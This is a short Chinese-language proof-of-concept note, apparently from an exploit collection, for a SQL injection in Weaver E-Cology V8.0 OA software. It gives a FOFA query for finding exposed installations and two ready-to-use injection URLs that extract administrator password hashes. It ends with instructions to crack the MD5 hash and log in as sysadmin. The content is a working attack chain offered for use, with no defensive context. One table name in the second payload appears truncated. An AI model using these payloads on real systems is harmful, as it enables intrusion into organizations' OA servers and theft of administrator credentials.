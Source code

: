 # 泛微OA E-Cology V8.0 SQL注入漏洞
## 资产收集：
fofa：`app="泛微-协同办公OA"`  
![](./img/login.png)
## POC
- getdata.jsp SQL：`/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager`  
![](./img/E-Cology_sql.png)
- LoginSSO.jsp SQL：`/upgrade/detail.jsp/login/LoginSSO.jsp?id=1%20UNION%20SELECT%20password%20as%20id%20from%20HrmResourceManage`  
- md5解密后登陆：`sysadmin/md5解密的密码` 